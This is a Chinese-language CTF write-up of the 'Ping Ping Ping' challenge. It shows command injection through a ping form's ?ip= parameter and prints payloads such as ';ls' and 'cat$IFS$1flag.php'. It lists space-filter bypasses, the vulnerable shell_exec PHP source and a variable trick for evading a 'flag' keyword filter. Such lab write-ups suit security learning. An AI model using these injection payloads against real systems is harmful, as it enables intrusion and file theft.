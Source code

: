 ```yaml
---
title: Ping Ping Ping
subtitle: 一个ctf题目
date: 2023-10-17T18:22:57+08:00
slug: a3176b7
tags:
  - CMD
  - tricks
categories:
  - CTF
---
```


## 1

  

### （1）

打开靶场，扑面而来一个

`/?ip=`

（如果有点觉悟就会想起来之前做的文件上传从而意识到这是个URL地址符提示。不过当时没有，甚至在想这是什么代码……php？html？）

于是熟练的打开edge查询wp。

于是

```URL

http://2993ad62-21c8-4f1d-b4d6-05bdd7130b70.node4.buuoj.cn:81/?ip=127.0.0.1;ls

```

喜提

(补充：尝试了一下`&& ls`，什么有用的也没有得到)

```txt

PING 127.0.0.1 (127.0.0.1): 56 data bytes

flag.php

index.php

```

这告诉我们有两个php文件，名字如上。

  

### （2）

  

再用`cat`命令

  

```url

/?ip=xxx;cat flag.php

```

  

喜提`fuck your space`。

好嘛，用能想到的space替换符，%20之类的，毫不意外不行。

wp提供了更多的绕过space：

```txt

${IFS}

$IFS$1

${IFS

<> or < 重定向符替换

%09

```

原博一个个试后告诉大家，`$IFS$1`行得通。

  

```URL

https://xxx/?ip=127.0.0.1;cat$IFS$1flag.php

```

  

又告诉你不行——因为flag被过滤了。

  

### （3）

试一下index.php，

```php

PING 127.0.0.1 (127.0.0.1): 56 data bytes

/?ip=

|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){

    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);

    die("fxck your symbol!");

  } else if(preg_match("/ /", $ip)){

    die("fxck your space!");

  } else if(preg_match("/bash/", $ip)){

    die("fxck your bash!");

  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){

    die("fxck your flag!");

  }

  $a = shell_exec("ping -c 4 ".$ip);

  echo "

";

  print_r($a);

}

?>

```

  

解释一下就是：

  

- 1. `PING 127.0.0.1 (127.0.0.1): 56 data bytes`：这是一个命令行输出，表示将对IP地址 127.0.0.1 进行Ping测试。`/?ip=`：这是一个URL参数，用于接收要测试的目标IP地址。

  

- 2. `|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match))`：这是一个正则表达式，用于检查输入的IP地址是否包含特定的符号（ `'`, `"`, `\`, `(`, `)`, `[`, `]`, `{`, `}`）。然后 `echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);`：这一行判断输入的IP地址是否包含特殊字符，并输出匹配结果。最后`die("fxck your symbol!");`：如果前面的正则表达式匹配到特殊字符，将输出错误信息并终止程序运行。

  

- 3. `preg_match("/ /", $ip)`：这是一个正则表达式，用于检查输入的IP地址是否包含空格。然后`die("fxck your space!");`：如果输入的IP地址包含空格，将输出错误信息并终止程序运行。后面都一样就不重复了。

  

- 4.  `$a = shell_exec("ping -c 4 ".$ip);`：执行Ping命令，通过shell_exec函数在操作系统中运行命令，并将结果存储在变量$a中。

  

- 5.`print_r($a);`：打印Ping命令的结果，显示Ping测试的输出信息。

  

### （4）

  

看完这么多过滤，基本可以确定没什么常规的可以写了。

于是一个有趣的就来了：

**改变变量值**

  

有一个变量`$a`，原本的值是第4条说的，我们进行人为修改（它也没禁止）：

```url

https://xxx/?ip=xxxx;a=g;cat$IFS$1fla$a.php

```

解释一下就是：

```python

a=g

flag=fla$a

```

不懂的永别了.jpg

然后就变成了初始界面。很懵逼是吧。

查看页面源代码获得惊喜。至于为什么会这样待我研究一下再来写。
